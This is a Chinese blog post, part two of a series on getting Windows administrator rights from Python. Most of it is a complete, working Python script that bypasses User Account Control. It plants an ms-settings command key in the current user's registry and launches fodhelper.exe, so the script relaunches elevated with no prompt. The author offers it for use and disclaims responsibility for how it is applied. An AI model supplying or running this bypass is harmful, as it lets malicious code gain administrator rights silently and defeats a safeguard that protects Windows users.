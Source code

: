 ```yaml
---
layout: post
title: python如果获取windows管理员权限（二）
category : python
tags :  [python, windows]
stickie: true
---
```


我们在[python如果获取windows管理员权限（一）](http://blog.csdn.net/qq_17550379/article/details/79006655)中谈到了UAC的问题。

很多时候我们不希望我们的软件弹出UAC提示，这个时候我们可以通过注册表的方法去解决。这其实已经不在是一个安全的编程了，它变成了一把双刃剑。

当然我们只是讨论这种问题该怎么解决。具体用在什么方面那是你的问题咯！

通过下面的代码我们可以轻松绕过UAC


```python
# -*- coding: utf-8 -*-
"""
Created on Mon Jan  8 09:09:51 2018

@author: coordinate
"""
from __future__ import print_function
import os
import sys
import ctypes
if sys.version_info[0] == 3:
    import winreg as winreg
else:
    import _winreg as winreg
    
CMD                   = r"C:\Windows\System32\cmd.exe"
FOD_HELPER            = r'C:\Windows\System32\fodhelper.exe'
PYTHON_CMD            = "python"
REG_PATH              = 'Software\Classes\ms-settings\shell\open\command'
DELEGATE_EXEC_REG_KEY = 'DelegateExecute'

def is_admin():
    '''
    Checks if the script is running with administrative privileges.
    Returns True if is running as admin, False otherwise.
    '''    
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False
    
def create_reg_key(key, value):
    '''
    Creates a reg key
    '''
    try:        
        winreg.CreateKey(winreg.HKEY_CURRENT_USER, REG_PATH)
        registry_key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, REG_PATH, 0, winreg.KEY_WRITE)                
        winreg.SetValueEx(registry_key, key, 0, winreg.REG_SZ, value)        
        winreg.CloseKey(registry_key)
    except WindowsError:        
        raise
        
def bypass_uac(cmd):
    '''
    Tries to bypass the UAC
    '''
    try:
        create_reg_key(DELEGATE_EXEC_REG_KEY, '')
        create_reg_key(None, cmd)    
    except WindowsError:
        raise
        
def execute():        
    if not is_admin():
        print('[!] The script is NOT running with administrative privileges')
        print('[+] Trying to bypass the UAC')
        try:                
            current_dir =  __file__
            cmd = '{} /k {} {}'.format(CMD, PYTHON_CMD, current_dir)
            bypass_uac(cmd)                
            os.system(FOD_HELPER)                
            sys.exit(0)                
        except WindowsError:
            sys.exit(1)
    else:
        #这里添加我们需要管理员权限的代码
        print('[+] The script is running with administrative privileges!')  
        
if __name__ == '__main__':
    execute()
```

其实我们这个代码这里主要是往注册表中添加了这两项

<center class="half">
<img src="http://wx4.sinaimg.cn/mw690/af2d2659ly1fn9g5xkfobj211y0llgn7.jpg" >
</center>